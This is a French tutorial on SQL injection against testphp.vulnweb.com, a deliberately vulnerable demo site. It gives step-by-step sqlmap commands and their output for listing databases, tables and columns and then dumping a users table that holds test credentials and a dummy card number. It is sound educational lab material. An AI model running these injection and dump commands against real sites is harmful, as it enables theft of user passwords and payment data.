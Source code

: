 # Sand box et SQLMAP

On va ici tenter de pénétrer un [site web ](http://testphp.vulnweb.com/)\(prévu à cet effet\) pour tester des attaques par injections SQL. Notamment avec l'utilisation du logiciel SQLMAP.

## Présentation du site

![preview du site](../.gitbook/assets/capture-de-cran-2021-08-13-a-20.40.45.png)

C'est un site qui regroupe des artistes par catégorie, avec des descriptions par artistes etc. et il est sensible aux injections SQL.

On peut vérifier cette sensibilité en ajoutant un guillemet simple à la fin de l'url, car il retourne une erreur sql.



## Par injections SQL à la main



## À l'aide de SQLMAP

#### 1. On commence par taper la commande suivante pour lister toutes les databases utilisées à cette url :

```text
$ sudo sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" --dbs 
```

Vous devriez avoir à la fin du processus, quelque chose comme ça :

```bash
[21:23:03] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: PHP 5.6.40, Nginx 1.19.0
back-end DBMS: MySQL >= 5.0.12

[21:23:03] [INFO] fetching database names
available databases [2]:

[*] acuart
[*] information_schema
```

On remarque ainsi la présence de 2 databases pour cette url.

#### 2. À partir de la, on peut récupérer le nom des tables des databases que l'on souhaite, par exemple ici la database acuart, avec la commande :

```text
$ sudo sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" --tables -D acuart
```

Vous obtiendrai à la fin de ce processus, le nom des tables de la database acuart :

```text
[21:28:51] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: PHP 5.6.40, Nginx 1.19.0
back-end DBMS: MySQL >= 5.0.12

[21:28:51] [INFO] fetching tables for database: 'acuart'
Database: acuart
[8 tables]
+-----------+
| artists   |
| carts     |
| categ     |
| featured  |
| guestbook |
| pictures  |
| products  |
| users     |
+-----------+
```

#### 3. Notre but étant de pouvoir obtenir les informations des utilisateurs, on va s'intéresser à la table users, et afficher ses attributs :

```text
$ sudo sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" --columns -D acuart -T users
```

Vous obtiendrai finalement le descriptif des attributs de la tables users, de la database acuart :

```text
[21:34:10] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: PHP 5.6.40, Nginx 1.19.0
back-end DBMS: MySQL >= 5.0.12

[21:34:10] [INFO] fetching columns for table 'users' in database 'acuart'
Database: acuart
Table: users
[8 columns]
+---------+--------------+
| Column  | Type         |
+---------+--------------+
| address | mediumtext   |
| cart    | varchar(100) |
| cc      | varchar(100) |
| email   | varchar(100) |
| name    | varchar(100) |
| pass    | varchar(100) |
| phone   | varchar(100) |
| uname   | varchar(100) |
+---------+--------------+
```

Maintenant, il ne nous reste plus qu'à afficher les données de la table :

```text
$ sudo sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" --dump -D acuart -T users
```

Résultat :

```text
Database: acuart
Table: users
[1 entry]
+---------------------+----------------------------------+--------------------------------------------------+------+-----------------+---------+-------+-----------+
| cc                  | cart                             | name                                             | pass | email           | phone   | uname | address   |
+---------------------+----------------------------------+--------------------------------------------------+------+-----------------+---------+-------+-----------+
| 1234-5678-2300-9000 | 5d85445a2a1e07611dfd51f20ef36758 | 1}"acxzzzzzzzzbbbccccdddeeexca".replace("z","o") | test | email@email.com | 2323345 | test  | 21 street |
+---------------------+----------------------------------+--------------------------------------------------+------+-----------------+---------+-------+-----------+
```

On peut donc voir que la table users contient un utilisateur dont l'identifiant et le mot de passe sont 'test'.

